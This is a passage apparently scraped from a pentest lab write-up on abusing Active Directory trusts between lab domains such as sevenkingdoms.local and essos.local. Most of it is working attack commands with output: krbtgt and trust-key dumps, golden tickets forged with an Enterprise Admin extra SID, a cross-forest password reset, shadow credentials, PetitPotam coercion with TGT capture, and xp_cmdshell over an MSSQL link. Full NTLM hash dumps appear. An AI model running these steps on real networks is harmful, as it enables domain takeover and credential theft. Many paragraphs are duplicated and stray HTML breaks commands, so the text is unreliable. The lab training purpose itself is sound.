




GOAD - part 11 - Abusing Trusts - Done
An Active Directory trust (AD trust) is a method of connecting two distinct Active Directory domains (or forests) to allow users in one domain to authenticate against resources in the other. Domain trust establishes the ability for users in one domain to authenticate to resources or act as a security principal in another domain. The informationhttps://github.com/franc-pentest/ldeep below has been taken and summarized from this amazing post by HarmjOy and many otther resources like Microsoft as well. As described by Microsoft, **“Most organizations that have more than one domain have a legitimate need for users to access shared resources located in a different domain“, and trusts allow organizations with multiple domains to grant users in separate domains access to shared resources. Essentially, all a trust does is link up the authentication systems of two domains and allows authentication traffic to flow between them through a system of referrals. If a user requests access to a service principal name (SPN) of a resource that resides outside of the domain they’re current in, their domain controller will return a special referral ticket that points to the key distribution center (KDC, in the Windows case the domain controller) of the foreign domain. The purpose of establishing a trust is to allow users from one domain to access resources (like the local Administrators group on a server), to be nested in groups, or to otherwise be used as security principals in another domain (e.g. for AD object ACLs). One exception to this is intra-forest trusts (domain trusts that exist within the same Active Directory forest)- any domain created within a forest retains an implicit two-way, transitive trust relationship with every other domain in the forest. This has numerous implications which will be covered later in this post. There are several types of trusts, some of which have various offensive implications, covered in a bit:- WITHIN_FOREST (0x00000020) — the trusted domain is within the same forest, meaning a parent->child or cross-link relationship
- TREAT_AS_EXTERNAL (0x00000040) — the trust is to be treated as external for trust boundary purposes. According to the documentation, “
 .gif)
.gif)

What we care about is the direction of access, not the direction of the trust. With a one-way trust where A -trusts-> B, if the trust is enumerated from A, the trust is marked as outbound, while if the same trust is enumerated from B the trust is marked as inbound, while the potential access is from B to A. # Practice We can change the configurations for the lab this way, so we can practice how to “Abuse Trusts” cd ansible/
# A new group DragonRider on sevenkingdoms.local
sudo ansible-playbook -i ../ad/GOAD/data/inventory -i ../ad/GOAD/providers/virtualbox/inventory main.yml -l dc01
# Change group AcrossTheNarrowSea acl to add genericAll on dc01 (kingslanding)
sudo ansible-playbook -i ../ad/GOAD/data/inventory -i ../ad/GOAD/providers/virtualbox/inventory ad-acl.yml -l dc01
# Add builtin administrator user member on dc01 for dragonRider
sudo ansible-playbook -i ../ad/GOAD/data/inventory -i ../ad/GOAD/providers/virtualbox/inventory ad-relations.yml -l dc01
# Add sidhistory on the sevenkingdoms trust link to essos by default
sudo ansible-playbook -i ../ad/GOAD/data/inventory -i ../ad/GOAD/providers/virtualbox/inventory *<em><strong>vulnerabilities.yml -l dc01
netdom trust sevenkingdoms.local /d:essos.local /enablesidhistory:yes

As it is well described on this amazing post by HarmjOy HERE. It’s always good to have a great Trust Attack Strategy when dealing with Trust Links. When he talks about Trust Attack Strategy in his blogpost, what he means is a way to laterally move from the domain in which your access currently resides into another domain you’re targeting. (1)* - The first step is to enumerate all trusts your current domain has, along with any trusts those domains have, and so on. Basically, you want to produce a mapping of all the domains you can reach from your current context through the linking of trust referrals. This will allow you to determine the domains you need to hop through to get to your target and what techniques you can execute to (possibly) achieve this. Any domains in the mapped “mesh” that are in the same forest (e.g. parent->child relationships) are of particular interest due to the SIDhistory-trust-hopping technique developed by Sean Metcalf and Benjamin Delpy, also covered in the The Trustpocalypse section. (2) - The next step is to enumerate any users/groups/computers (security principals) in one domain that either (1) have access to resources in another domain (i.e. membership in local administrator groups, or DACL/ACE entries), or (2) are in groups or (if a group) have users from another domain. The point here is to find relationships that cross the mapped trust boundaries in some way, and therefore might provide a type of “access bridge” from one domain to another in the mesh. While a cross-domain nested relationship is not guaranteed to facilitate access, trusts are normally implemented for a reason, meaning more often than not some type of cross-domain user/group/resource “nesting” probably exists, and in many organizations these relationships are misconfigured. Another subnote- as mentioned, Kerberoasting across trusts may be another vector to hop a trust boundary. Check out the Another Sidenote: Kerberoasting Across Domain Trusts section for more information. (3) - Now that you have mapped out the trust mesh, types, and cross-domain nested relationships, you have a map of what accounts you need to compromise to pivot from your current domain into your target. By performing targeted account compromise, and utilizing SID-history-hopping for domain trusts within a forest, we have been able to pivot through up to 7+ domains in the field to reach our objective. Remember that if a domain trusts you, i.e. if the trust is bidirectional or if one-way and inbound, then you can query any Active Directory information from the trusting domain. And remember that all parent->child (intra-forest domain trusts) retain an implicit two way transitive trust with each other. Also, due to how child domains are added, the “Enterprise Admins” group is automatically added to Administrators domain local group in each domain in the forest. This means that trust “flows down” from the forest root, making it our objective to move from child to forest root at any appropriate step in the attack chain. # Enumerate Trusts ## ldeep Let’s start first by enumerating trusts since we do have access to an account already. To achieve that we can use LDEEP. We will enumerate the trust trust link configuration between sevenkingdoms.local and essos.local domains. Enumerating the domain trusts link configured on sevenkingdoms.local Domain Controller.ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://10.4.10.10 trusts
 Above we can see that sevenkingdoms.local to essos.local trust link is
Above we can see that sevenkingdoms.local to essos.local trust link is FOREST_TRANSITIVE | TREAT_AS_EXTERNAL because we have enabled the SID history.
FOREST_TRANSITIVE(0x00000008) — Cross-forest trust between the root of two domain forests running at least domain functional level 2003 or above.TREAT_AS_EXTERNAL(0x00000040) — The trust is to be treated as external for trust boundary purposes. According to the documentation, “If this bit is set, then a cross-forest trust to a domain is to be treated as an external trust for the purposes of SID Filtering. Cross-forest trusts are more stringently filtered than external trusts. This attribute relaxes those cross-forest trusts to be equivalent to external trusts.” This sounds enticing.WITHIN_FOREST(0x00000020) — the trusted domain is within the same forest, meaning a parent->child or cross-link relationship

ldeep ldap -u 'tywin.lannister' -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://10.4.10.12 trusts

We can see the trust link between essos.local to sevenkingdoms.local isFOREST_TRANSITIVE
FOREST_TRANSITIVE(0x00000008) — Cross-forest trust between the root of two domain forests running at least domain functional level 2003 or above.

netexec ldap 10.4.10.10 -u 'tywin.lannister' -p 'powerkingftw135' -M enum_trusts
 We can see above that, sevenkingdoms.local domain has a Parent/Child (bidirectional) domain trust link with north.sevenkingdoms.local doman, and also an External(Inter-Forest) bidirectional domain trust link with essos.local domain
## Bloodhound
BloodHound can also be used to get a better overview of the domain trust links.
To enumerate with bloodhound UNIX-like we can use the following command and after that we just need to open bloodhound and upload the whole information.
We can see above that, sevenkingdoms.local domain has a Parent/Child (bidirectional) domain trust link with north.sevenkingdoms.local doman, and also an External(Inter-Forest) bidirectional domain trust link with essos.local domain
## Bloodhound
BloodHound can also be used to get a better overview of the domain trust links.
To enumerate with bloodhound UNIX-like we can use the following command and after that we just need to open bloodhound and upload the whole information.
bloodhound-python -c all -u 'tywin.lannister' -p 'powerkingftw135' -d 'sevenkingdoms.local' -ns '10.4.10.10' -dc kingslanding.sevenkingdoms.local
After uploading the whole information we can use the following filter to get the domain trust links map.
MATCH p=(n:Domain)-->(m:Domain) RETURN p
 # Domain Trust - child/parent (north.sevenkingdoms.local -> sevenkingdoms.local)
> Parent-Child: this type of trust relationship exists between a parent domain and a child domain in the same forest.
The parent domain trusts the child domain, and the child domain trusts the parent domain.
This type of trust is automatically created when a new child domain is created in a forest.
>
Now… Let’s imagine that we were exploring north.sevenkingdoms.local and were able to escalate all the way up to Domain Admin.
We are able to dump all the hashes inside this domain using several types of attacks that we have covered before.
From the screenshot below, we can see that we do have a Bidirectional Trust Link between North.Sevenkingdoms.local and Sevenkingdoms.local.
This is a Child/Parent domain trust link scenario.
> If you compromise the domain controller of a child domain in a forest, you can compromise its entire parent domain.
>
# Domain Trust - child/parent (north.sevenkingdoms.local -> sevenkingdoms.local)
> Parent-Child: this type of trust relationship exists between a parent domain and a child domain in the same forest.
The parent domain trusts the child domain, and the child domain trusts the parent domain.
This type of trust is automatically created when a new child domain is created in a forest.
>
Now… Let’s imagine that we were exploring north.sevenkingdoms.local and were able to escalate all the way up to Domain Admin.
We are able to dump all the hashes inside this domain using several types of attacks that we have covered before.
From the screenshot below, we can see that we do have a Bidirectional Trust Link between North.Sevenkingdoms.local and Sevenkingdoms.local.
This is a Child/Parent domain trust link scenario.
> If you compromise the domain controller of a child domain in a forest, you can compromise its entire parent domain.
>

We will be exploring diferent ways to achieve this Child to Parent domain escalation, by doing it manually and the last option will be using a single tool that will do everything for us quick and easy. ## Golden Ticket + ExtraSid 1st - We start by dumping the Kerberoas Ticket Granting Ticket for the domain that we own already, in our case we dump the north.sevenkingdoms.local kerberoas TGT.secretsdump.py</a> -just-dc-user north/krbtgt \ north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@10.4.10.11
[<em>] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[</em>] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:272c2618114ba96dc7ba115c4f67d583:::
[<em>] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1c0e5dfec4512b5b5e6cee5b99c4374a0b89291572ac10aec582910bd8d53470
krbtgt:aes128-cts-hmac-sha1-96:4197766150b87cb3cf6c113bc8c14d18
krbtgt:des-cbc-md5:43d0f2cd70320252
[</em>] Cleaning up...
lookupsid.py</a> -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@10.4.10.11 0
 [] Domain SID is:
[] Domain SID is: S-1-5-21-789731433-484686348-3644883437
Parent Domain Security Identifier.
lookupsid.py</a> -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@10.4.10.10 0
 [] Domain SID is:
[] Domain SID is: S-1-5-21-332544030-1053405351-3017451513
3rd - We already gathered all the information we needed so lets created the Golden Ticket now, and to achieve that, we can use ticketer.py from impacket.
To create this Golden Ticket we will need to provide the -519 which means Enterprise Admin. you can get to know more about SID here.

ticketer.py</a> -nthash 272c2618114ba96dc7ba115c4f67d583 -domain-sid 'S-1-5-21-789731433-484686348-3644883437' -domain 'north.sevenkingdoms.local' -extra-sid 'S-1-5-21-332544030-1053405351-3017451513-519' Mr_Stark_goldenuser
 Let me explain the command above:
Let me explain the command above:
-nthash : it’s the NT hash for our domain KRBTGT dumped previously in step 1.
-domain-sid : Child Domain Security Identifier also grabbed on step 2.
-domain : It is the current dom1ain we are currently.
-extra-sid : That’s the combination of the Parent SID + Enterprise Admin SID. which is this case is -519.
4th - Our golden ticket was successfully created, so we can now use it to dump the NTDS in our Parent Domain(sevenkingdoms.local)
export KRB5CCNAME=Mr_Stark_goldenuser.ccache
secretsdump.py</a> -k -no-pass -just-dc-ntlm north.sevenkingdoms.local/Mr_Stark_goldenuser@kingslanding.sevenkingdoms.local

[<em>] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[</em>] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b74923d4333469c3a4f0c81db52815a0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:7147e7ee3e5cf640e32995d1610a41bb:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:c99fbb3a17548f760cb576cae81e9527:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:f515766f4fd63a4494818b2db4690414:::
[*] Cleaning up...
secretsdump.py</a> -just-dc-user 'SEVENKINGDOMS$' north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@10.4.10.11
 Now that we do have the Trust Key, we can use it to forge the ticket, the same way we did previously, but this time, instead of creating a new ticket adding the SID -519. we will set the SPN(Service Principal Name) of the Parent Domain KrbTGT.
Now that we do have the Trust Key, we can use it to forge the ticket, the same way we did previously, but this time, instead of creating a new ticket adding the SID -519. we will set the SPN(Service Principal Name) of the Parent Domain KrbTGT.
ticketer.py</a> -nthash 'c99fbb3a17548f760cb576cae81e9527' -domain-sid 'S-1-5-21-789731433-484686348-3644883437' -domain 'north.sevenkingdoms.local' -extra-sid 'S-1-5-21-332544030-1053405351-3017451513-519' -spn ''krbtgt/sevenkingdoms.local mrstarktrustkey
-nthash : It’s the NT hash for our domain KRBTGT dumped previously in step 1.
-domain-sid : Child Domain Security Identifier also grabbed on step 2.
-domain : It is the current domain we are currently.
-extra-sid : That’s the combination of the Parent SID + Enterprise Admin SID. which is this case is -519.
-spn : It’s the service in our Parent Domain.
 We can now use the just forget ticket to request the Service Ticket to our Parent Domain.
We can now use the just forget ticket to request the Service Ticket to our Parent Domain.
export KRB5CCNAME=mrstarktrustkey.ccache
<a href="http://getst.py/" target="_blank">getST.py</a> -k -no-pass -spn 'CIFS/kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/mrstarktrustkey@sevenkingdoms.local' -debug
 ### Remote Access via SMBCLIENT
### Remote Access via SMBCLIENT
export KRB5CCNAME=mrstarktrustkey@sevenkingdoms.local@CIFS_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
<a href="http://smbclient.py/" target="_blank">smbclient.py</a> -k -no-pass mrstarktrustkey@kingslanding.sevenkingdoms.local
 ### Dumping Parent Domain credentials.
Secretsdump can be used to dump the parent Domain hashes as well.
### Dumping Parent Domain credentials.
Secretsdump can be used to dump the parent Domain hashes as well.
export KRB5CCNAME=mrstarktrustkey@sevenkingdoms.local@CIFS_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
<a href="http://secretsdump.py/" target="_blank">secretsdump.py</a> -k -no-pass -just-dc-ntlm north.sevenkingdoms.local/mrstarktrustkey@kingslanding.sevenkingdoms.local

Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs
[<em>] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[</em>] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b74923d4333469c3a4f0c81db52815a0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:7147e7ee3e5cf640e32995d1610a41bb:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:c99fbb3a17548f760cb576cae81e9527:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:f515766f4fd63a4494818b2db4690414:::
[<em>] Cleaning up...
raiseChild.py</a> north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'
 Here's a breakdown of what happened:
1. Raising child domain: The script is raising a child domain named
Here's a breakdown of what happened:
1. Raising child domain: The script is raising a child domain named north.sevenkingdoms.local.
2. Forest FQDN: It identifies the Forest Fully Qualified Domain Name (FQDN) as sevenkingdoms.local.
3. Raising child domain to parent: The child domain north.sevenkingdoms.local is being raised to the parent domain sevenkingdoms.local.
4. Enterprise Admin SID: It retrieves the SID (Security Identifier) for the Enterprise Admins group of sevenkingdoms.local.
5. Getting credentials: The script retrieves credentials for various accounts within both the child domain (north.sevenkingdoms.local) and the parent domain (sevenkingdoms.local).
- For
north.sevenkingdoms.local, it retrieves the credentials for thekrbtgtaccount (used for Kerberos service ticket requests). - For
sevenkingdoms.local, it retrieves the credentials for thekrbtgtaccount as well as theAdministratoraccount.
Administrator within the sevenkingdoms.local domain.
7. Credentials retrieved: The script displays the retrieved credentials for the Administrator account in both NTLM and AES encryption formats.
In a quick way we were able to explore this Child/Parent trust link.
# Forest Trust (sevenkingdoms.local -> essos.local)
Forest — a transitive trust between one forest root domain and another forest root domain. Forest trusts also enforce SID filtering. Forest exists between two forests:
(i.e. between two root domains in their respective forest). It allows users in one forest to access resources in the other forest.
 We can see above that sevenkingdoms.local and essos.local domains have a Bidirectional trust relation.
## Password Reuse
Normally if we get access to Domain Admin on a specific domain, we can dump the NTDS and check if sames users we do have in DomainA can be in DomainB, in this case we can try to find the same users on the external forest as well.
This is basically simple, we can do a password spraying using users/pass from ForestA to ForestB and check if we can find any valid user that can access the external forest.
Another way is also to do a kerbrute attack to find users present in the two domains and try password reuse.
# Foreign Group and Foreign Users
Here we will demonstrate the several ways we can escalate from Domain Admin to enterprise admin by doing lateral movement from sevenkingdoms.local to essos.local domain, which are 2 completely different domains.
### Sevenkingdomains.local to Essos.local via SPYS Group.
As you can see on the screenshot below, we will imagine that we are Domain Admin in sevenkingdoms.local and we can see that all users in Domain Admins Group in sevenkingdoms.local has
We can see above that sevenkingdoms.local and essos.local domains have a Bidirectional trust relation.
## Password Reuse
Normally if we get access to Domain Admin on a specific domain, we can dump the NTDS and check if sames users we do have in DomainA can be in DomainB, in this case we can try to find the same users on the external forest as well.
This is basically simple, we can do a password spraying using users/pass from ForestA to ForestB and check if we can find any valid user that can access the external forest.
Another way is also to do a kerbrute attack to find users present in the two domains and try password reuse.
# Foreign Group and Foreign Users
Here we will demonstrate the several ways we can escalate from Domain Admin to enterprise admin by doing lateral movement from sevenkingdoms.local to essos.local domain, which are 2 completely different domains.
### Sevenkingdomains.local to Essos.local via SPYS Group.
As you can see on the screenshot below, we will imagine that we are Domain Admin in sevenkingdoms.local and we can see that all users in Domain Admins Group in sevenkingdoms.local has GenericAll for the group Small Council and also all users of Small Council group in sevenkingdoms.local are MemberOf SPYS group in essos.local domain, and as well, all users in SPYS group in essos.local domain have GenericAll in Jorah.Mormont which is a valid user in essos.local.
 To do that type of abuse, we can start by choosing a random user from Small Council Group, we will choose petyer.baelish with password @littlefinger@.
Petyer.baelish is part of Small Council group and all users from Small Council are member of SPYS group in essos.local, all member from SPYS group have GenericAll in user Jorah.Mormont, so basically as user Petyer.baelish we have GenericAll in Jorah.Mormont(which is essos.local domain admin) because we are member of SPYS group in essos.local.
To do that type of abuse, we can start by choosing a random user from Small Council Group, we will choose petyer.baelish with password @littlefinger@.
Petyer.baelish is part of Small Council group and all users from Small Council are member of SPYS group in essos.local, all member from SPYS group have GenericAll in user Jorah.Mormont, so basically as user Petyer.baelish we have GenericAll in Jorah.Mormont(which is essos.local domain admin) because we are member of SPYS group in essos.local.
net rpc password jorah.mormont -U sevenkingdoms.local/petyer.baelish%@littlefinger@ -S meereen.essos.local
 After doing that, we can confirm the access to essos.local domain with several ways, using NetExec or by trying an RDP using the new password we just changed.
After doing that, we can confirm the access to essos.local domain with several ways, using NetExec or by trying an RDP using the new password we just changed.
xfreerdp /d:essos.local /u:jorah.mormont /p:'P@ssword123' /v:meereen /size:80% /cert-ignore
 ### Shadow Credentials
The other thing we can also do is the Shadow Credential attack using Certipy.
### Shadow Credentials
The other thing we can also do is the Shadow Credential attack using Certipy.
certipy shadow add -u petyer.baelish@sevenkingdoms.local -p '@littlefinger@' -dc-ip 10.4.10.12 -target meereen.essos.local -account 'jorah.mormont’
 After getting the Jorah.Mormont certificate and private key we can use it to request Ticket Granting Ticket and Jorah.Mormont NT Hash as well.
After getting the Jorah.Mormont certificate and private key we can use it to request Ticket Granting Ticket and Jorah.Mormont NT Hash as well.
certipy auth -pfx jorah.mormont.pfx -username 'jorah.mormont' -domain 'essos.local' -dc-ip 10.4.10.12

Got hash for 'jorah.mormont@essos.local': aad3b435b51404eeaad3b435b51404ee:cb8a428385459087a76793010d60f5dc
This way we are able to request and retrieve Jorah.Mormont Ticket Granting Ticket and also the user’s NT Hash.
We can use NetExec to test a login to essos.local domain controller using this hash.
netexec smb 10.4.10.12 -u jorah.mormont -H 'cb8a428385459087a76793010d60f5dc'
 Voila. It worked.
## Use Unconstrained Delegation
We can also do the lateral movement from one domain to other (sevenkingdoms.local to essos.local) abusing unconstrained delegation as well.
By default Unconstrained Delegation is configured in Domain Controllers, We can take advantage of this and get the essos.local Domain Controller’s TGT.
This attack will be conducted locally with Powershell.
Let’s start by logging into our Domain Controller with our valid user which is a domain admin user, so he has all rights in the local domain DC.
Rubeus.exe can be used to monitor all TGT’s but since our target is essos.local domain controller TGT we will focus to bring us MEEREEN$ TGT’s only(essos.local DC)
Note: Run Powershell as Administrator.
Voila. It worked.
## Use Unconstrained Delegation
We can also do the lateral movement from one domain to other (sevenkingdoms.local to essos.local) abusing unconstrained delegation as well.
By default Unconstrained Delegation is configured in Domain Controllers, We can take advantage of this and get the essos.local Domain Controller’s TGT.
This attack will be conducted locally with Powershell.
Let’s start by logging into our Domain Controller with our valid user which is a domain admin user, so he has all rights in the local domain DC.
Rubeus.exe can be used to monitor all TGT’s but since our target is essos.local domain controller TGT we will focus to bring us MEEREEN$ TGT’s only(essos.local DC)
Note: Run Powershell as Administrator.
.\Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1
 Now we just need to wait for essos.local DC (MEEREEN) to contact our local DC and get the TGT.
Let’s use PetitPotam.py on our attacking machine to force a coerce of meereen to kingslanding.
Now we just need to wait for essos.local DC (MEEREEN) to contact our local DC and get the TGT.
Let’s use PetitPotam.py on our attacking machine to force a coerce of meereen to kingslanding.
petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local

 We got the MEEREEN$ TGT, now we just need to remove the empty spaces, to achieve this we can use vim with the following
We got the MEEREEN$ TGT, now we just need to remove the empty spaces, to achieve this we can use vim with the following :%s/\s</em>\n\s<em>//g.
After that we decode this Base64 and save it to .kirbi
base64 MEEREEN_TGT > MEEREEN_TGT.kirbi
Now we convert it from kirbi to ccache and we can use it do a DCSync attack.
ticketConverter.py</a> MEEREEN_TGT.kirbi MEEREEN_TGT.ccache
export KRB5CCNAME=MEEREEN_TGT.ccache
secretsdump.py</a> -k -no-pass -just-dc-ntlm essos.local/'meereen$'@meereen.essos.local

[</em>] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[<em>] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:35ab88d442588e0c40880e6302d772c2:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
daenerys.targaryen:1112:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1113:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1114:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1115:aad3b435b51404eeaad3b435b51404ee:cb8a428385459087a76793010d60f5dc:::
missandei:1116:aad3b435b51404eeaad3b435b51404ee:1b4fd18edf477048c7a7c32fda251cec:::
drogon:1117:aad3b435b51404eeaad3b435b51404ee:195e021e4c0ae619f612fb16c5706bb6:::
sql_svc:1118:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:5807647d0239d294fddca7b0e5cf9548:::
BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:d191cbd31bc127fa2f9fcbdc3f2aa968:::
gmsaDragon$:1119:aad3b435b51404eeaad3b435b51404ee:b3ea112ce9dbb6e832495932afd2c574:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:f515766f4fd63a4494818b2db4690414:::
[</em>] Cleaning up...
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local
After logged in, we can start by enumerating MSSQL trusted links in this server.
enum_links
 It’s possible to see that our user jon.Snow has access to the linked server as SA (which is the highest role in MSSQL) We can abuse from this trunk link from Castelblack(North.sevenkingdoms.local) to exexute CMD in Braavos(essos.local).
It’s possible to see that our user jon.Snow has access to the linked server as SA (which is the highest role in MSSQL) We can abuse from this trunk link from Castelblack(North.sevenkingdoms.local) to exexute CMD in Braavos(essos.local).
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
 We can see above that we were able to execute CMD command whoami and we got output essos\sql_svc.
